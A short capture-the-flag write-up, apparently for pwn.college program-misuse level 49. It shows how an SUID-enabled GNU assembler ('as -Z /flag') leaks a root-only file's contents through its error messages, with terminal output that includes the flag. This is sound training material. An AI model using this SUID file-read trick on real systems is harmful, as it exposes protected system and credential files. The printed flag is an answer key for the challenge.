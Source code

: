 `as` is the GNU assembler, responsible for translating assembly code into machine code object files that can later be linked to form executable or libraries.

When compiling a `c` or `c++` program, GCC invokes `as` internally to assemble the generated assembly code before linking it with other object files and libraries to create the final executable.

I searched for `file`  using `as --help | grep  file` and found this 

`-Z : generate object file even after errors the source file`

After running `as -Z /flag` it shows the content of the `flag` file. `as /flag` also works.


```bash
hacker@program-misuse-level-49:~$ /challenge/babysuid_level49 
Welcome to /challenge/babysuid_level49!

This challenge is part of a series of programs that
just straight up were not designed to let you read files.

I just set the SUID bit on /usr/bin/as.
Try to use it to read the flag!

IMPORTANT: make sure to run me (/challenge/babysuid_level49) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/as!
hacker@program-misuse-level-49:~$ as -Z /flag
/flag: Assembler messages:
/flag:1: Error: no such instruction: `pwn.college{Uu1B1JE1Ve-aFYG7noevDBSa94f.0VM5EDL0AjNzQzW}'
1 error, 0 warnings, generating bad object file
hacker@program-misuse-level-49:~$ as /flag
/flag: Assembler messages:
/flag:1: Error: no such instruction: `pwn.college{Uu1B1JE1Ve-aFYG7noevDBSa94f.0VM5EDL0AjNzQzW}'
```



